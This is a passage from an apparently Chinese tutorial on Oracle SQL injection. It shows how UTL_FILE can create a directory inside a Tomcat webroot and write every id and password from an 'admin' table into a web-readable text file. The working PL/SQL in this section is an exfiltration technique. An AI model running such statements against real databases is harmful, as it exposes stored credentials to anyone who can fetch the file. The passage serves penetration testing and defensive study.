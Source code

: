 utl_http 在注入的时候怎么去利用同理，由于我也没有去深入了解 utl_http 或许他还有其他的更实用的功能等待你去发现。

##### 使用 UTL_FILE 友情备份：

创建目录：

```
create or replace directory cux_log_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/ROOT/selina'; 
```

导出数据到文件：

```
declare
    frw   utl_file.file_type;
    begin
        frw:=utl_file.fopen('CUX_LOG_DIR','emp.txt','w');
        for rec in (select * from admin) loop
            utl_file.put_line(frw,rec.id||','||rec.password);
        end loop;
        utl_file.fclose(frw);
    end;
/ 
```

效果图：
￼
![enter image description here](img/img19_u20_png.jpg)
